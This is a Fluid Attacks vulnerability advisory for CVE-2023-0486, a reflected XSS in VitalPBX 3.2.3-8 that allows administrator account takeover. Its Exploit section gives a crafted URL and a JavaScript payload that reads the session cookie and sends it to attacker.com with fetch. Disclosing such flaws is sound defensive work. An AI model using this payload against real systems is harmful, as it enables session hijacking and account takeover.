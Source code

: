 ```yaml
---
slug: advisories/smith/
title: VitalPBX 3.2.3-8 - Account Takeover via Reflected XSS
authors: Carlos Bello
writer: cbello
codename: smith
product: VitalPBX 3.2.3-8
date: 2023-02-06 12:00 COT
cveid: CVE-2023-0486
severity: 8.8
description: VitalPBX 3.2.3-8 - Account Takeover via Reflected XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Vital PBX, Account Takeover
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | VitalPBX 3.2.3-8 - Account Takeover via Reflected XSS                |
| **Code name**         | [Smith](https://en.wikipedia.org/wiki/Aaron_Smith_(DJ))              |
| **Product**           | VitalPBX                                                             |
| **Affected versions** | 3.2.3-8                                                              |
| **State**             | Public                                                               |
| **Release Date**      | 2023-02-06                                                           |

## Vulnerability

|                       |                                                                                                             |
| --------------------- | ------------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                        |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)     |
| **Remote**            | Yes                                                                                                         |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                                    |
| **CVSSv3 Base Score** | 8.8                                                                                                         |
| **Exploit available** | No                                                                                                          |
| **CVE ID(s)**         | [CVE-2023-0486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0486)                               |

## Description

VitalPBX version 3.2.3-8 allows an unauthenticated external attacker to
obtain the instance's administrator account via a malicious link. This
is possible because the application is vulnerable to XSS.

## Vulnerability

This vulnerability occurs because the application is vulnerable to XSS.

### Exploit

To exploit this vulnerability, we just need to send a malicious url like
the following to the administrator.

```txt
http://vulnerable.com/?class=<img+src=1+onerror='sid=document.cookie.split(`;`)[0].split(`=`)[1];fetch(`https://attacker.com/vitalpbx/leak?sid=`%2bsid);'>&method=exportCDR&mode=add&refresh_mode=&cdr_filter_id=&source=&destination=&from=2023-01-25%2000%3A00%3A00&to=2023-01-25%2023%3A59%3A59&cdr-report-dt_length=10&format=pdf
```

The payload, in a more readable format, looks like this.

```js
sid=document.cookie.split(`;`)[0].split(`=`)[1];
fetch(`https://attacker.com/vitalpbx/leak?sid=`+sid);
```

## Evidence of exploitation

![ato-reflected-xss](https://user-images.githubusercontent.com/51862990/214717870-390d3c1e-15bd-4fde-85f7-f0d4a47233ce.gif)

![cookie-leak](https://user-images.githubusercontent.com/51862990/214718603-fa6e0405-e90b-4e30-be5a-1f1b3389e698.png)

## Our security policy

We have reserved the ID CVE-2023-0486 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: VitalPBX 3.2.3-8

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://vitalpbx.com/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-02-06">
</time-lapse>

